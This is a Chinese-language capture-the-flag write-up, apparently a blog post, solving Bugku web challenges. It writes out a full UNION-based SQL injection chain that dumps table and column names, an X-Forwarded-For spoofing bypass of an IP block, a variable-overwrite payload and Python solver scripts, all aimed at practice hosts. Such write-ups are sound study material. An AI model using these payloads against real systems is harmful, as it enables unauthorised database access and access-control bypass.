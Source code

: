 ﻿

# WEB 1
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190512175446949.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mzg5NjAwMQ==,size_16,color_FFFFFF,t_70)题目如上,看到了extract函数,让我想到了bugku的变量覆盖题目

构造payload    ``http://123.206.31.85:10001/?a=&b=``

得到flag





# WEB 9

![在这里插入图片描述](https://img-blog.csdnimg.cn/20190512191946452.png)打开页面看到    **put me a message bugku then you can get the flag**  

联想到put传输

上脚本

```
import requests
import base64
url='http://123.206.31.85:3031/'
s=requests.session()
data='bugku'
putmess=s.put(url,data) # put方式传输字符串bugku
rep=putmess.content.decode('utf-8')
print(rep) #得到base64字符串
result=base64.b64decode(rep)  #base64解码
print(result)
```
先用put方式传输字符串‘bugku’,返回响应页面,得到base64加密的flag。
然后解码得到flag

# 流量分析

![在这里插入图片描述](https://img-blog.csdnimg.cn/2019051219250233.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mzg5NjAwMQ==,size_16,color_FFFFFF,t_70)
下载 **流量分析.rar** 后用Wireshark打开
过滤tcp
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190512192627798.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mzg5NjAwMQ==,size_16,color_FFFFFF,t_70)**右键追踪tcp流得到flag**

![在这里插入图片描述](https://img-blog.csdnimg.cn/20190512192742389.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mzg5NjAwMQ==,size_16,color_FFFFFF,t_70)

# WEB 2

![在这里插入图片描述](https://img-blog.csdnimg.cn/20190512180103779.png)
联想到bugku老司机题目 直接上脚本

```python
import requests
import re
url="http://123.206.31.85:10002/"
s=requests.Session()
go=s.get(url)
r=go.text
restr=re.compile(r'[0-9+]+[*]+[0-9+]+[+]+[0-9+]+[*]+\(+[0-9+]+\)')
fin=restr.findall(r)
print(fin)
result=eval(fin[0])
print(result)
data={'result':result}
req=s.post(url,data)
print(req.content.decode('utf-8'))
```
跑出flag



# WEB 5

看到题目提示是 injection 
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190512193031223.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mzg5NjAwMQ==,size_16,color_FFFFFF,t_70)点击flag
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190512193120299.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mzg5NjAwMQ==,size_16,color_FFFFFF,t_70)
查看url:``http://47.95.208.167:10005/?mod=read&id=1``

order by 猜解列数

```
id=1 order by 1
id=1 order by 2
id=1 order by 3
id=1 order by 4
id=1 order by 5
```
一直猜到5,报错了

![在这里插入图片描述](https://img-blog.csdnimg.cn/20190512193437795.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mzg5NjAwMQ==,size_16,color_FFFFFF,t_70)
构造payload
``http://47.95.208.167:10005/?mod=read&id=-1 union select 1,2,3,4;``  得知字段在第三列显示

``http://47.95.208.167:10005/?mod=read&id=-1 union select 1,2,database(),4;``   得到库名为web5

``id=-1 union select  1,2,table_name,4 from information_schema.tables  where table_schema='web5'`` 得到表名为flag

``id=-1 union select 1,2,column_name,4 from information_schema.columns where table_name='flag'``  得到字段名为flag

``http://47.95.208.167:10005/?mod=read&id=-1 union select  1,2,flag,4 from flag``  得到flag值

# WEB 6

![在这里插入图片描述](https://img-blog.csdnimg.cn/20190512195959943.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mzg5NjAwMQ==,size_16,color_FFFFFF,t_70)
查看页面源代码,在5023行发现类似base64的字符串
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190512200403412.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mzg5NjAwMQ==,size_16,color_FFFFFF,t_70)
解码后得到 ``test123``
猜测

```
Username:admin

Password:test123
```
尝试登陆,提示
**IP禁止访问，请联系本地管理员登陆，IP已被记录.** 
加请求头 X-Forwarded-For:127.0.0.1
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190512200628214.png)

重新登陆得到flag
# WEB 11
整个页面只有一行 ``We han't anything! ``
看到标题为``robots``
访问``url/robots.txt``页面出现如下
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190512201327528.png)


继续访问``url/shell.php`` 出现如下界面
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190512201417298.png)
上脚本

```python
import  hashlib
def makemd5(s): #定义一个函数包含参数s
    return hashlib.md5(s.encode('utf-8')).hexdigest()
    '''hash.digest() 
返回摘要，作为二进制数据字符串值

hash.hexdigest() 
返回摘要，作为十六进制数据字符串值 '''

for x in  range(1,99999990):
    if(makemd5(str(x)))[0:6]=='5e84db':
        print(x)
```
得到答案为 91805
提交答案得到flag
注:加密值每次都会刷新


